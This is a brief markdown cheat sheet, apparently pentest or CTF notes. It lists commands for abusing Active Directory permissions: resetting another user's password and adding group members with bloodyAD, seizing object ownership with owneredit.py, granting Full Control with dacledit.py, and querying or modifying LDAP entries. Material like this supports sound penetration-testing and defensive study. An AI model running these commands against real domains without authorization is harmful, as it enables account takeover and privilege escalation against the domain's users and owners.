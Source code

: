 


### 1. ForceChange User password using BloodyAD


If we have `ForceChangePassword` over a user, we can use bloodyAD to change their password


```bash
bloodyAD --host $IP -u 'ownedUser' -p 'password' set password 'targetuser' 'password-to-be-set'
```



### 2. Add a user to a group using BloodyAD


If we have `AddSelf` for a user or `GenericAll`, we can add them to a group using bloodyAD


```bash
bloodyAD --host $IP -d domain -u 'owneduser' -p 'password' add groupMember "GroupName" "User-to-be-added"
```




### 3. Change OwnerShip of a user  using ownerdit.py


If we have WriteOwner right over a user object, we can use `owneredit.py` to change the object ownership


```bash
owneredit.py domain/owneruser -target 'user-whose-ownership-is-to-be-changed' -action write -new-owner 'new-owner'
```





### 4. Granting GenericAll privilege to abuse ownership of a user object using dacledit.py


```bash
dacledit.py -action write -rights 'Full Control' -principal 'owneduser' -target 'targetuser' 'domain/owneduser:password'
```





### 5. Finding DN of a user with ldapsearch


```bash
ldapsearch -x -H ldap://<IP> -D "username@domain" -W -b "dc=domain,dc=com" "(sAMAccountName=<username>)"
```





### 6.  LdapModify with an LDIF file


```bash
ldapmodify -x -H ldap://<ip> -D "username@domain" -W -f <ldif_file
```



